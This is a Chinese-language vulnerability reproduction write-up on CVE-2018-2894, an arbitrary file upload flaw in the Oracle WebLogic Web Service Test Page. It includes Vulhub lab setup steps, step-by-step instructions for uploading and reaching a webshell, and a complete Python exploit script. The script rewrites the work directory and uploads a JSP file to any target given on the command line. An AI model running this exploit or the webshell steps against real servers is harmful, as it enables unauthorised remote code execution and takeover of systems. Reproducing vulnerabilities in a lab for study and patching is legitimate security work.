





# Weblogic 任意文件上传漏洞 CVE-2018-2894

## 漏洞描述

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。

利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
- https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
- https://xz.aliyun.com/t/2458

## 环境搭建

Vulhub执行如下命令，启动weblogic 12.2.1.3：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:7001/console`，即可看到后台登录页面。

执行`docker-compose logs | grep password`可查看管理员密码，管理员用户名为`weblogic`。


登录后台页面，点击`base_domain`的配置，在“高级”中开启“启用 Web 服务测试页”选项：



## 漏洞复现

访问`http://your-ip:7001/ws_utc/config.do`，设置Work Home Dir为`/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css`。

此处将目录设置为`ws_utc`应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。



然后点击安全 -> 增加，然后上传webshell：



上传后，查看返回的数据包，其中有时间戳：



然后访问`http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]`，即可执行webshell：



## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

## 漏洞EXP

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

from __future__ import print_function
from builtins import str
import re
import sys
import time
import argparse
import requests
import traceback
import xml.etree.ElementTree as ET


def get_current_work_path(host):
    geturl = host + "/ws_utc/resources/setting/options/general"
    ua = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0'}
    values = []
    try:
        request = requests.get(geturl)
        if request.status_code == 404:
            exit("[-] {}  don't exists CVE-2018-2894".format(host))
        elif "Deploying Application".lower() in request.text.lower():
            print("[*] First Deploying Website Please wait a moment ...")
            time.sleep(20)
            request = requests.get(geturl, headers=ua)
        if "</defaultValue>" in request.content:
            root = ET.fromstring(request.content)
            value = root.find("section").find("options")
            for e in value:
                for sub in e:
                    if e.tag == "parameter" and sub.tag == "defaultValue":
                        values.append(sub.text)
    except requests.ConnectionError:
        exit("[-] Cannot connect url: {}".format(geturl))
    if values:
        return values[0]
    else:
        print("[-] Cannot get current work path\n")
        exit(request.content)


def get_new_work_path(host):
    origin_work_path = get_current_work_path(host)
    works = "/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css"
    if "user_projects" in origin_work_path:
        if "\\" in origin_work_path:
            works = works.replace("/", "\\")
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects\\domains"
            dir_len = len(current_work_home.split("\\"))
            domain_name = origin_work_path.split("\\")[dir_len]
            current_work_home += "\\" + domain_name + works
        else:
            current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects/domains"
            dir_len = len(current_work_home.split("/"))
            domain_name = origin_work_path.split("/")[dir_len]
            current_work_home += "/" + domain_name + works
    else:
        current_work_home = origin_work_path
        print("[*] cannot handle current work home dir: {}".format(origin_work_path))
    return current_work_home


def set_new_upload_path(host, path):
    data = {
        "setting_id": "general",
        "BasicConfigOptions.workDir": path,
        "BasicConfigOptions.proxyHost": "",
        "BasicConfigOptions.proxyPort": "80"}
    request = requests.post(host + "/ws_utc/resources/setting/options", data=data, headers=headers)
    if "successfully" in request.content:
        return True
    else:
        print("[-] Change New Upload Path failed")
        exit(request.content)


def upload_webshell(host, uri):
    set_new_upload_path(host, get_new_work_path(host))
    files = {
        "ks_edit_mode": "false",
        "ks_password_front": password,
        "ks_password_changed": "true",
        "ks_filename": ("360sglab.jsp", upload_content)
    }

    request = requests.post(host + uri, files=files)
    response = request.text
    match = re.findall("<id>(.*?)</id>", response)
    if match:
        tid = match[-1]
        shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
        if upload_content in requests.get(shell_path, headers=headers).content:
            print("[+] {} exists CVE-2018-2894".format(host))
            print("[+] Check URL: {} ".format(shell_path))
        else:
            print("[-] {}  don't exists CVE-2018-2894".format(host))
    else:
        print("[-] {}  don't exists CVE-2018-2894".format(host))


if __name__ == "__main__":
    start = time.time()
    password = "360sglab"
    url = "/ws_utc/resources/setting/keystore"
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", dest='target', default="http://127.0.0.1:7001", type=str,
                        help="target, such as: http://example.com:7001")

    upload_content = "360sglab test"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'X-Requested-With': 'XMLHttpRequest', }

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.target

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        upload_webshell(target, url)
    except Exception as e:
        print("[-] Error: \n")
        traceback.print_exc()
```

